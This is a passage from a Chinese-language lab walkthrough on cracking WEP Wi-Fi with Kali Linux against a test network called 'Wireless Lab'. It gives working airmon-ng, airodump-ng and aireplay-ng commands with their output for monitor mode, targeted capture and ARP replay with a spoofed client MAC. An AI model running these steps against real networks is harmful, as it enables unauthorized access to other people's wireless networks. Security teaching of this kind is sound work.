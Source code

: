 ```bash
root@kali:~# ifconfig wlan0 up
#开启监听模式
root@kali:~# airmon-ng start wlan0

PHY	Interface	Driver		Chipset

phy3	wlan0		88XXau		Realtek Semiconductor Corp. RTL8812AU 802.11a/b/g/n/ac 2T2R DB WLAN Adapter
 (monitor mode enabled)
#定位AP
root@kali:~# airodump-ng wlan0
 CH 11 ][ Elapsed: 48 s ][ 2019-11-23 20:31                                         
                                                                                         
 BSSID             PWR  Beacons #Data, #/s  CH  MB   ENC CIPHER AUTH ESSID
                                                                                         
 E4:D3:32:44:61:BE -59  125      467    2    6  54e. WEP WEP          Wireless Lab                                                                                             
 BSSID              STATION            PWR   Rate     Lost    Frames  Probe                                                                                            
 E4:D3:32:44:61:BE  14:9D:09:A8:4B:FE  -45   24e- 2e   704     1423  Wireless Lab
```

这里选择实验无线网络Wireless Lab, 优化上面命令使用下面命令关注该无线数据包, `--bssid` 目标路由器mac地址, `--channel`和AP同一个通道, `-w`将抓到的包存入一个输出文本, 文本文件前缀, `wlan0`网卡. 只要无线客户端链接AP,输出如下所示:

```bash
root@kali:~# airodump-ng --bssid E4:D3:32:44:61:BE --channel 6 -w wireless wlan0

 CH  6 ][ Elapsed: 6 s ][ 2019-11-23 20:42                                         
                                                                                         
 BSSID              PWR RXQ  Beacons #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                         
 E4:D3:32:44:61:BE  -22  10     77    1550  191   6  54e. WEP  WEP         Wireless Lab
                                                                                         
 BSSID              STATION            PWR    Rate     Lost    Frames  Probe                                     
 E4:D3:32:44:61:BE  14:9D:09:A8:4B:FE  -100   54e-24   3941     1732
```

不过现在Data数据包很少, 破解WEP需要大量以相同秘钥加密的数据包, 所以使用`aireplay-ng`工具先抓取无线网络中的ARP包, 再将其灌回网络来模拟ARP响应.另开一个终端启动`aireplay-ng`

`-3`将ARP数据包重新释放回网络 `-b`指明目标无线网络的BSSID, `-h`为发动攻击的无线客户端指定一个冒充的MAC地址

```bash
root@kali:~# aireplay-ng -3 -b E4:D3:32:44:61:BE -h 14:9D:09:A8:4B:FE wlan0
The interface MAC (1C:BF:CE:54:E2:F7) doesn't match the specified MAC (-h).
	ifconfig wlan0 hw ether 14:9D:09:A8:4B:FE
20:58:02  Waiting for beacon frame (BSSID: E4:D3:32:44:61:BE) on channel 6
Saving ARP requests in replay_arp-1123-205802.cap
You should also start airodump-ng to capture replies.
Read 897 packets (got 1 ARP requests and 0 ACKs), sent 551 packets...(499 pps)
```

